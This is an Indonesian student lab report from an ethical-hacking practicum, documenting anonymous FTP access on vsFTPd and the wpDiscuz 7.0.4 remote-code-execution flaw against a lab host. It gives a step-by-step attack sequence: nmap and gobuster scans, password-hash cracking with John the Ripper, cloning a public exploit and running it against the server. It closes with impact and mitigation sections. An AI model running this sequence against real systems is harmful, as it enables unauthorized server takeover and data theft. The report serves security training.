 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```

Pindai kerentanan FTP dengan Nmap:

````bash
nmap --script=ftp-anon,ftp-vsftpd-backdoor -p21 10.15.42.245
```

Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

Download file yang ditemukan:

```bash
ls
get list.xyz
get readme.txt
```

Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

Simpan hash dan crack dengan John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Vulnerable WordPress Plugin:
Gunakan GoBuster untuk mencari direktori tersembunyi:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```

Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

Jalankan exploit:

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```

6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
